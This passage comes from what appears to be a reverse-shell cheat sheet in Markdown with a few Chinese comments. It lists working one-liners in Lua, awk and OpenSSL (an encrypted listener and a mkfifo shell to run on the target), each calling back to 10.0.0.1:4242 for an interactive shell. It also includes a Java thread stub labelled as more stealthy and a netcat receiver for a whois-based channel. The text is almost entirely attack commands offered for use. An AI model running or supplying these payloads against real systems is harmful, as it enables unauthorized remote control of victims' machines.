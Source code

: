 - **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

#### lua

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

#### openssl

Attacker:
```bash
# 生成密钥
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# 启动监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
```

```bash
# 在目标机器上回弹
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

#### awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

#### whois

接收端
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d
```
